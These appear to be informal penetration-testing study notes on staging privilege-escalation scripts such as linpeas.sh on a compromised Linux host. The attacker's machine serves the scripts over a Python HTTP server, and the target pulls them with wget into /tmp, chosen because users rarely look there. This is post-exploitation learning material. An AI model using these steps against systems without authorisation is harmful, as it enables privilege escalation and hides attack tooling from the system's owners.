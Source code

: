 Now that we have these automated priv escalation scrips that helps in identifying vulnerabilities into the system

	These scripts should be run on locals machines to identify vulnerabilities

	But but when we gain access to a user in a system it is not necessary that it will have access to internet
	
	but we want to get those automated tools into the target system to escalate privileges

For that we can use SimpleHTTPserver method

>If you are running Python 3, you will get error as `No module named SimpleHTTPServer`. It’s because in python 3, SimpleHTTPServer has been merged into `http.server` module. 

we can run this commands in our system to create a webpage that others can connect to on port 80

	Note: be in that path that automated scripts are saved in

	eg linpeas.sh is stored in Desktop/linesc

	first cd Desktop/linesc

	then use the below commands to run a http server on port 80

>Sudo python -m simpleHTTPServer 80

if python 3 use below command

>Sudo python -m http.server 80


Now in the taget system with user accont

we can go to 
>cd /tmp

use tmp acc to save filed in target system.
users ususally do not access tmp files that is why it is recommended to save files here.

use this commands in target system
>wget http://<systemIP>/linpeas.sh

	Note : terminate the SimpleHTTPServer in your local system once required files are downloaded into target system






